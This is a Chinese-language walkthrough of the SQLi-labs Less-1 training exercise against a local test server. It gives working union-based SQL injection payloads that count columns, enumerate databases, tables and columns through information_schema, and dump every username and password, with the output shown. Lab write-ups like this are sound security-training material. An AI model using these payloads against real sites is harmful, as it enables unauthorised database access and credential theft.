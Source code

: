 主要用到 

```
联合注入
group_concat
concat_ws
order by 测试列数
```



首先根据提示，payload

```
http://127.0.0.1/Less-1/?id=1
```

添加单引号测试注入

```
http://127.0.0.1/Less-1/?id=1‘ 
发现报错，'1'' limit 0,1

```

```
http://127.0.0.1/Less-1/?id=1%27%20--+
去掉url编码 为
http://127.0.0.1/Less-1/?id=1‘ --+       （%27为'    %20为空格）
```

用order by测试查询的数据库有几列,或者union select 1,2,3来看回显列

测试 3列

```
http://127.0.0.1/Less-1/?id=1%27%20order%20by%203%20--+
```

测试 4列

```
http://127.0.0.1/Less-1/?id=1%27%20order%20by%204%20--+
```

出现

```
Unknown column '4' in 'order clause'
说明4超出了列数，那么我们要查询的只有三列
```



union select 三列 进行测试

```
-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+

-1 不在数据库中，所以union select的前后两个sql语句中，只有后面的查询语句才会显示出来
```



查看security数据库所有表

```
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+


得到
emails,referers,uagents,users
```

下面查看user列名

```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+

得到
Your Login name:2
Your Password:id,username,password
```

下面就是要查看username 和password

```
-1' union select 1,2,group_concat(concat_ws('-',username,password)) from security.users --+

（concat_ws：concat_ws(‘-’,a,b) 将a和b用-连接起来）

得到
Your Password:Dumb-Dumb,Angelina-I-kill-you,Dummy-p@ssword,secure-crappy,stupid-stupidity,superman-genious,batman-mob!le,admin-admin,admin1-admin1,admin2-admin2,admin3-admin3,dhakkan-dumbo,admin4-admin4 
```

得到所有账号密码
